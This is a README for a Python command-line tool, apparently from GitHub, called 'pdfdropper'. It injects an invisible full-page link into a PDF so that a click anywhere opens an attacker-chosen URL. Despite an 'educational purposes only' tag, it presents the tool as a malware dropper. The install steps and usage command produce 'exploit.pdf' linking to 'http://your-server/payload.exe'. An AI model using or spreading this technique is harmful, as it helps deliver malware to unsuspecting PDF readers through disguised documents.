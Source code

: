 

# Universal PDF Dropper: Full-Page Link Injection for Modern Browsers

*For educational purposes only.* 🔒

Inject a full-page, invisible link into any PDF so that clicking anywhere in the document opens your chosen URL—no Acrobat-only JavaScript required.

## 🚀 Features
- **Full-Page Injection**: Invisible `/URI` annotation across the entire page.
- **Cross-Viewer Support**: Compatible with Chrome, Firefox, Preview, Acrobat, etc.
- **Pure Python**: Uses `pypdf`, no JS or Acrobat plugins.
- **CLI**: Quick one-liner to craft your dropper.

## 📋 Prerequisites
- Python 3.6+
- `venv` or `virtualenv`
- A safe base PDF (`original.pdf`)

## 🛠️ Installation
```bash
git clone https://github.com/harze12/pdfdropper.git
cd pdfdropper
python3 -m venv .venv
source .venv/bin/activate   # Windows: .venv\Scripts\activate.ps1
pip install -r requirements.txt
cp /path/to/your.pdf original.pdf
```


## 🔧 Usage

Run the CLI tool with the following options:

-f: Path to the input PDF (e.g., original.pdf).

-o: Path for the output PDF (e.g., exploit.pdf).

-url: The target URL to inject (e.g., http://your-server/payload.exe).


```bash
python pdfdropper.py -f original.pdf -o exploit.pdf -url http://your-server/payload.exe
```

## Example

Inject a full-page link into report.pdf that points to https://example.com:

```bash
python pdfdropper.py -f report.pdf -o report_linked.pdf -url https://example.com
```

Open *-linked.pdf in any PDF viewer—click anywhere to navigate to your URL.

